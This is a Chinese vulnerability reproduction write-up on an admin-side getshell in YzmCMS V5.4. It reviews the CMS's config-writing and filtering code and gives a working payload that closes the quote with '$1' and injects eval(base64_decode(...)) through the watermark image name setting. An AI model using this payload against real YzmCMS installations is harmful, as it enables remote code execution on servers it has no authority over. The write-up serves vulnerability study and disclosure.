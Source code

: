 YzmCMS V5.4 后台getshell（二）
==============================

一、漏洞简介
------------

二、漏洞影响
------------

YzmCMS V5.4

三、复现过程
------------

### 漏洞分析

这个cms中有一些配置项是写在文件中，也有一些是写在数据库中的，例如上一个漏洞提到的`mode`就是写在文件中，而我们的payload是写在数据库中再进行读取的，为了避免上面手动修改配置文件这一过程，我找到了一个函数可以修改配置文件，但是问题是只能对规定的4个key进行修改，所以是不能直接修改`mode`这个key的。于是我回去查看补丁，发现修改配置的函数也进行了修改。

![](resource/YzmCMSV5.4后台getshell(二)/media/rId25.png)

该函数位于文件`application/admin/common/function/function.php`

    function set_config($config) {
        $configfile = YZMPHP_PATH.'common'.DIRECTORY_SEPARATOR.'config/config.php';
        if(!is_writable($configfile)) showmsg('Please chmod '.$configfile.' to 0777 !', 'stop');
        $pattern = $replacement = array();
        foreach($config as $k=>$v) {
            $pattern[$k] = "/'".$k."'\s*=>\s*([']?)[^']*([']?)(\s*),/is";
            $replacement[$k] = "'".$k."' => \${1}".$v."\${2}\${3},";                    
        }
        $str = file_get_contents($configfile);
        $str = preg_replace($pattern, $replacement, $str);
        return file_put_contents($configfile, $str, LOCK_EX);       
    }

可以看到，补丁在原来的函数中增加了一行代码，将传入的`$config`中的字符`,`和`$`移除了，而原先就直接经过特定的正则表达式将`config.php`文件中的内容进行替换后再写回去。

调用这个函数的地方，除了安装的页面就只有`application/admin/controller/system_manage.class.php`中的`save`

    public function save() {
            yzm_base::load_common('function/function.php', 'admin');
            if(isset($_POST['dosubmit'])){
                if(isset($_POST['mail_inbox']) && $_POST['mail_inbox']){
                    if(!is_email($_POST['mail_inbox'])) showmsg(L('mail_format_error'));
                }
                if(isset($_POST['upload_types'])){
                    if(empty($_POST['upload_types'])) showmsg('允许上传附件类型不能为空！', 'stop');
                }
                $arr = array();
                $config = D('config');
                foreach($_POST as $key => $value){
                    if(in_array($key, array('site_theme','watermark_enable','watermark_name','watermark_position'))) {
                        $value = safe_replace(trim($value));
                        $arr[$key] = $value;
                    }else{
                        if($key!='site_code'){
                            $value = htmlspecialchars($value);
                        }
                    }
                    $config->update(array('value'=>$value), array('name'=>$key));
                }
                set_config($arr);
                delcache('configs');
                showmsg(L('operation_success'), '', 1);
            }
        }

在`save`中，只有key为`'site_theme','watermark_enable','watermark_name','watermark_position'`的配置项会经过`safe_replace`后传入`set_config`，其他项则是直接在数据库中更新。

`safe_replace`则对一些特殊字符进行了过滤

    function safe_replace($string) {
        $string = str_replace('%20','',$string);
        $string = str_replace('%27','',$string);
        $string = str_replace('%2527','',$string);
        $string = str_replace('*','',$string);
        $string = str_replace('"','',$string);
        $string = str_replace("'",'',$string);
        $string = str_replace(';','',$string);
        $string = str_replace('<','&lt;',$string);
        $string = str_replace('>','&gt;',$string);
        $string = str_replace("{",'',$string);
        $string = str_replace('}','',$string);
        $string = str_replace('\\','',$string);
        return $string;
    }

审计完代码以后我们可以发现post过去的值，只有特定的key会被写入配置文件，而value不能包含`safe_replace`中的特殊字符，最后value会被拼接成为`preg_replace`中的第二个参数`$replacement`的一部分。而在`$replacement`中用了`${1}`这样的形式来指定上文匹配到的`'`，虽然`{}`被过滤了，但是`$1`实际上是与`${1}`等价的，因此我们通过这种方式闭合单引号，然后`,`也没有被过滤，所以我们可以在键值对的后面插入别的代码，可惜的是`>`是被过滤的，所以我们无法插入`key => value`这样的形式来修改项。不过可以直接插入函数，像`array(0=>1,func())`的形式中，`func`是会被执行的，并且将返回值作为value成为array的一部分。

所以只要闭合了单引号，再传递一个eval过去就可以执行代码了，因为有过滤函数，所以可以再套一层base64。

### 漏洞复现

设置的接口在系统管理的系统设置中的附加设置处。

![](resource/YzmCMSV5.4后台getshell(二)/media/rId27.png)

通过上文的分析我们来构建payload。

将`system('echo 123');`base64\_encode以后为`c3lzdGVtKCdlY2hvIDEyMycpOw==`，套一层eval并且闭合单引号后payload为

    $1,eval(base64_decode($1c3lzdGVtKCdlY2hvIDEyMycpOw==$1)),$1

先查看配置文件原先的内容

![](resource/YzmCMSV5.4后台getshell(二)/media/rId28.png)

回到页面，`水印图片名称`就是可用的一个配置项，在这个地方写入我们的payload并提交。

![](resource/YzmCMSV5.4后台getshell(二)/media/rId29.png)

提交以后可以发现已经成功执行命令了

![](resource/YzmCMSV5.4后台getshell(二)/media/rId30.png)

再回去查看配置文件可以看到代码也写入了

![](resource/YzmCMSV5.4后台getshell(二)/media/rId31.png)

参考链接
--------

> https://xz.aliyun.com/t/7231\#toc-5

